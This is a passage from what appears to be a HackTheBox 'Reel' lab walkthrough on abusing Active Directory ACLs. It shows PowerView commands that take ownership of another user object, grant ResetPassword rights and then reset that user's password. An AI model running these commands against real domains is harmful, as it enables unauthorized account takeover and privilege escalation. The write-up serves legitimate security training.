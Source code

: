 With **acls.csv** file, we won't need Bloodhound.

Searching for `tom@htb.local` we can see information about the user:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-27.png)

So tom has **WriteOwner** rights over `claire`:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-28.png)

I’ll see claire has **WriteDacl** rights over the `Backup_Admins` group object:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-29.png)


### WriteOwner

Bloodhound Support got a great guide on how to exploit this [here](https://support.bloodhoundenterprise.io/hc/en-us/articles/17312755938203-WriteOwner).

We've already cover exploiting WriteOwner on [HTB-Object](https://jadu101.github.io/Hackthebox%F0%9F%93%A6/Windows%F0%9F%93%98/HTB-Object#writeowner-abuse) before.

To abuse this privilege with **PowerView**’s **Set-DomainObjectOwner**, we will first import **PowerView** into our agent session :


![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-52.png)

Next, we’ll set tom as the owner of claire’s ACL:

`Set-DomainObjectOwner -identity claire -OwnerIdentity tom`

Next, we’ll give tom permissions to change passwords on that ACL:

`Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword`

Now, we’ll create a credential, and then set claire’s password:

```powershell
$cred = ConvertTo-SecureString "P@ssw0rd123!" -AsPlainText -force
Set-DomainUserPassword -identity claire -accountpassword $cred
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-54.png)
